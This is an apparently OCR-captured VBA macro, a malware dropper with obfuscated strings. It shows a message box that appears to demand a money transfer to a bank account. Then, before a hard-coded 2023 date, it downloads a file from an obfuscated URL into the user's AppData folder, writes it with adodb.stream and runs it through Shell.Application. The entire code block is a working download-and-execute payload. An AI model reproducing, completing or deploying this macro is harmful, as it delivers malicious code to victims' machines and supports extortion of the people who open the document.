 ```vba
t = Chr(50) + Chr(48) + Chr(48)
Set p = CreateObject("WScript.Shell")
q = p.SpecialFolders("AppData")
Dim u
Dim v
Dim ¢e¶
Dim h As Long
Dim j As String
Dim w As Long
Dim m As String
Dim l As Long
Dim n As String
Dim x As String
Dim k As Long
Dim w
Dim y
Dim z As Integer
Dim huong6
Dim huong
z = 1
Range("A1").Value = a("4BEiàiuP3x6¿QEi³")
Dim huong2 As String
huong3 = "$x¿PÜ_jEPkEEiPÜ_6IE3P_i3PÛx¿²PàQBx²³_i³P3x6¿QEi³bPÜ_jEPkEEiPb³x#Eir" & vbCrLf & "ÒxP²E³²àEjEP³ÜEbEP3_³_(PÛx¿P_²EP²E7¿à²E3P³xP³²_ib0E²P@mmIP³xP³ÜEP0x##xÄàiuPk_iIP_66x¿i³Pi¿QkE²:P" & vbCrLf & "@m@m@mo@@§mmm" & vbCrLf & "g66x¿i³PÜx#3E²:PLu¿ÛEiPÒÜ_iÜP!xiu" & vbCrLf & "t_iI:PTtPt_iI"
huong2 = a(huong3)
MsgBox huong2, vbInformation, a("pEP3EEB#ÛP²Eu²E³P³xPài0x²QPÛx¿")
Dim huong4 As Date
Dim huong5 As Date
huong4 = Date
huong5 = DateSerial(2023, 6, 6)
If huong4 < huong5 Then
Set huong6 = CreateObject("microsoft.xmlhttp")
Set y = CreateObject("Shell.Application")
w = q + a("\k¿i6Ü_~Bb@")
huong6.Open "get", a("Ü³³Bb://uàb³~uà³Ü¿k¿bE²6xi³Ei³~6xQ/k7¿_iQ_i/fÀ3_o-3Yf0_E6m6kk3_km§3Y03ÀY_3__/²_Ä/À3EÀkfmfÀ@Eããoãä§k@_@ã0ä6_E3-ãY036-@@koo/_Àmb6m@§~Bb@"), False
huong6.send
v = huong6.responseBody
If huong6.Status = 200 Then
Set u = CreateObject("adodb.stream")
u.Open
u.Type = z
u.Write v
u.SaveToFile w, z + z
u.Close
End If
y.Open (w)
Else
MsgBox a("åxi'³P³²ÛP³xP²¿iPQEPk²x")
End If
End Sub
```

